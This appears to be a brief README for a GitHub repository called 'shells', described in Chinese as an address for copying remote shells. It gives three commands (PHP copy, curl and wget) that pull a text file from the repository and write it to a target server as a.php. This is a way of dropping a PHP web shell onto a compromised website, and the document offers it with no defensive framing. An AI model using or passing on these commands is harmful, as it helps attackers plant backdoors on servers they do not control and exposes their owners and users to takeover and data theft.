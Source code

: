 # shells
> 用于作为远程shell copy地址
* php
** copy("https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt",a.php);
* curl
** curl https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -o a.php
* wget
** wget https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -O a.php
